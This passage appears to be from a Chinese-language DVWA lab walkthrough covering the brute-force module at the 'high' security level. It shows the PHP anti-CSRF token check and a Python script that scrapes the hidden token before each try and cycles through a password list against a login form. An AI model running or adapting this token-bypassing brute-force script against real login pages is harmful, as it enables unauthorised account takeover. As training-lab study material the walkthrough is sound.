 ![image-20220127111122668](https://s2.loli.net/2022/01/27/TDGXZRB9kpgJq14.png)

这个函数对特殊字符进行转义，使得万能密码失效，只能用暴力破解的方法了。

**3.high**

```php
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
```

Token直接并到URL后面。

```
http://150.158.167.184:81/vulnerabilities/brute/?username=admin&password=password&Login=Login&user_token=2f7c77f2d6684f968502e34a49b71c39#
```

使用脚本进行爆破

```python
from bs4 import BeautifulSoup
import requests

header={
        'GET': 'http://150.158.167.184:81/vulnerabilities/brute/ HTTP/1.1',
        'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0',
        'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language':'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
        'Referer':'http://150.158.167.184:81/vulnerabilities/brute/',
        'cookie':'PHPSESSID=ukih93al6mi9q6sghlo6oo5h90; security=high',
        'Connection':'keep-alive',
        'Upgrade-Insecure-Requests':'1',
         'Host':'127.0.0.1'
        }
requrl="http://150.158.167.184:81/vulnerabilities/brute/"


def get_token(requrl,header):
    response=requests.get(url=requrl,headers=header)
    print (response.status_code,len(response.content))
    soup=BeautifulSoup(response.text,"html.parser")
    input=soup.form.select("input[type='hidden']")   #返回的是一个list列表
    user_token=input[0]['value']                   #获取用户的token
    return user_token

user_token=get_token(requrl,header)
i=0
for line in open("password.txt"):
    requrl="http://150.158.167.184:81/vulnerabilities/brute/?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token
    i=i+1
    print (i , 'admin' ,line.strip(),end="  ")
    user_token=get_token(requrl,header)
    # 尝试次数
    if(i==20):
        break
```
